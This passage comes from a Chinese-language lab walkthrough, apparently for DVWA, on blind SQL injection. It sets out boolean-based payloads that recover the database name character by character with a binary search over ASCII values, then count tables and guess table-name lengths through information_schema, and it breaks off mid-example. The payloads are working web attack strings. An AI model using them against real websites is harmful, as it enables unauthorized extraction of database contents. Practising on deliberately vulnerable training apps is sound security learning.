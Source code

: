     将结果排序得到”guestbook“

    ![sib11](/images/dvwa2/sib11.jpg)

    同样方法以此类推就可以得到所有表名与字段名。

5.  除上述采用逐个字符截取的方式还可以采用二分法等方式（取自Freebuf）

    猜解数据库名：

    ```mysql
    1' and ascii(substr(database(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；
    1' and ascii(substr(database(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；
    1' and ascii(substr(database(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；
    1' and ascii(substr(database(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；
    1' and ascii(substr(database(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；
    1' and ascii(substr(database(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。
        …
    ```

    猜解数据库中表的数量：

    ```mysql
        1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 # 显示不存在
        1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # 显示存在
    ```

    猜解表名：

    ```mysql
        1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 # 显示不存在
        1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=2 # 显示不存在
        …
        1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 # 显示存在
    